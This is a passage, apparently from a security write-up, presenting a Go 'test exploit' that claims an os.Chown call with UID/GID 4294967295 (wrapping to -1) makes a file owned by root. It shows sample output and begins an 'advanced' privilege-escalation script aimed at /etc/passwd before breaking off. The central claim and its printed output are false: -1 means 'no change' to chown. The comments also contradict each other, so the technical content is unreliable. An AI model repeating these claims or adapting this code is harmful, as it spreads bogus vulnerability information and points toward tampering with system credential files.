 ### Create Test Exploit
```go
// exploit_chown.go
package main

import (
    "fmt"
    "os"
    "syscall"
)

func main() {
    // Create test file
    err := os.WriteFile("/tmp/test_file", []byte("sensitive data"), 0644)
    if err != nil {
        panic(err)
    }

    // Vulnerable Chown call with large UID/GID
    uid := uint32(4294967295) // Wraps to -1 (root)
    gid := uint32(4294967295) // Wraps to -1 (root)
    
    err = os.Chown("/tmp/test_file", int(uid), int(gid))
    if err != nil {
        fmt.Printf("Error: %v\n", err)
        return
    }

    // Verify ownership
    info, _ := os.Stat("/tmp/test_file")
    stat := info.Sys().(*syscall.Stat_t)
    fmt.Printf("File owned by UID: %d, GID: %d\n", stat.Uid, stat.Gid)
    // Output: File owned by UID: 0, GID: 0 (root)
}
```

### Execution and Verification
```bash
# Run the exploit
go run exploit_chown.go

# Check file ownership
ls -ln /tmp/test_file
# Output: -rw-r--r-- 1 0 0 15 Jan 1 12:00 /tmp/test_file
# File is owned by root (UID 0) instead of current user
```

### Advanced Exploitation
```go
// privilege_escalation.go
package main

import (
    "fmt"
    "os"
    "syscall"
)

func exploitPrivilegeEscalation() {
    // Target sensitive file
    targetFile := "/etc/passwd"
    
    // Large UID that wraps to current user's UID
```